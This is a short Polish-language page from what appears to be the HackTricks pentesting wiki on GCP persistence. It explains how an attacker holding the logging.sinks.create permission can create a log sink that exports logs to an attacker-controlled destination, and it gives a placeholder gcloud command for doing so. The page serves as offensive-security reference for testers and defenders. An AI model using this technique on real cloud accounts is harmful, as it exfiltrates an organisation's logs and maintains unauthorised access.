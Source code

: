# GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Znajdź więcej informacji na temat Logging w:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Utwórz zlew, aby wyeksportować logi do miejsca dostępnego dla atakującego:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
